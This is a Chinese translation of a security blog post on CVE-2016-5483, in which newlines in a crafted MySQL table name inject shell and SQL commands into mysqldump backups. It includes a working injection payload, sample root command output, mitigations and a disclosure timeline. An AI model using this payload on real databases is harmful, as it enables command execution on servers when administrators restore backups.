 
# 【技术分享】CVE-2016-5483：利用mysqldump备份可生成后门


                                阅读量   
                                **99824**
                            
                        |
                        
                                                                                                                                    ![](./img/85658/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：tarq.io
                                <br>原文地址：[https://blog.tarq.io/cve-2016-5483-backdooring-mysqldump-backups/](https://blog.tarq.io/cve-2016-5483-backdooring-mysqldump-backups/)

译文仅供参考，具体内容表达以及含义原文为准

[![](./img/85658/t011204bee2fde3c42b.jpg)](./img/85658/t011204bee2fde3c42b.jpg)

****

翻译：[overXsky](http://bobao.360.cn/member/contribute?uid=858486419)

预估稿费：100RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿

**<br>**

**前言**

mysqldump是用来创建MySQL数据库逻辑备份的一个常用工具。它在默认配置下可以生成一个.sql文件，其中包含创建/删除表和插入数据等。在导入转储文件的时候，攻击者可以通过制造恶意表名来实现任意SQL语句查询和shell命令执行的目的。另一个与之相关的漏洞利用场景可以参考[通过构造数据库名对Galera进行远程代码执行攻击](https://blog.tarq.io/cve-2016-5483-galera-remote-command-execution-via-crafted-database-name/)。

<br>

**攻击场景**

攻击者已经能够访问你的应用程序并且执行任意SQL查询（比如通过一个过时的Wordpress插件安装的后门）

攻击者拥有创建表的权限（这很常见，许多指南和教程上都建议给安装程序授予此权限，或者执行GRANT ALL PRIVILEGES ON wordpress.*命令来授予Wordpress用户所有的权限）

被攻击目标使用mysqldump进行定期的数据库备份

攻击者想要提升权限并获得更多的系统访问

<br>

**攻击演示**

首先，攻击者使用如下查询创建一个恶意的表：



```
CREATE TABLE `evil  
! id
select user(),@@version/*`  (test text);
```

计划备份任务通常会在运行时为每一个表创建一个包含入口点的转储文件，格式类似于下面这样：



```
--
-- Table structure for table `tablename`
--
```

但是，用我们创建的恶意表名会让这个入口点变成这样：



```
--
-- Table structure for table `evil
! id
select user(),@@version/*`  
--
```

正如你所看到的，表名中的新行让攻击者能够插入任意行数的MySQL命令。一旦这段攻击载荷被成功导入，它将做如下几件事：

如果是它被mysql命令行客户端导入的，那么将通过sh执行id命令

它将执行一个任意查询，可以输出导入它的MySQL用户名和服务器版本

现在，攻击者开始在数据库中删除一些数据，到处插入一些随机损坏的Unicode字符，使得数据库看上去遭到了破坏。当管理员发现时，立马开始行动，准备从最新的备份中恢复数据。一旦他进行恢复操作，攻击载荷就会被执行：



```
$ mysql test &lt; backup.sql
uid=0(root) gid=0(root) groups=0(root) &lt;-- 攻击者的 shell 命令  
user()    @@version  
root@localhost    10.1.18-MariaDB &lt;-- 攻击者的 sql 查询
```

正如你看到的一样，攻击者成功地通过强制管理员恢复数据库来执行了一些讨厌的命令。至于如何创造一个能给攻击者留下后门的有效载荷，这就作为练习留给读者。

<br>

**缓解措施**



当使用mysqldump时加上 –skip-comments参数

在任何可能的地方撤销创建表的权限（这是最有效的手段）

在计划备份中只转储表的数据而不是表的结构

使用一些其他替代工具来备份MySQL数据

<br>

**受影响版本**

[![](./img/85658/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0135cf128350e82932.png)

<br>

**披露事记**

2016.10.05：发现漏洞并向MariaDB和Oracle报告。

2016.10.06：从MariaDB收到回复，预计将在下个版本中修复。讨论了CVE指配。

2016.10.13：MariaDB确认将在版本5.5.53中修复该漏洞。

2016.10.18：收到CVE编号。

2017.03.09：没有收到来自Oracle Outside的自动回复。超过90天后公开披露漏洞。
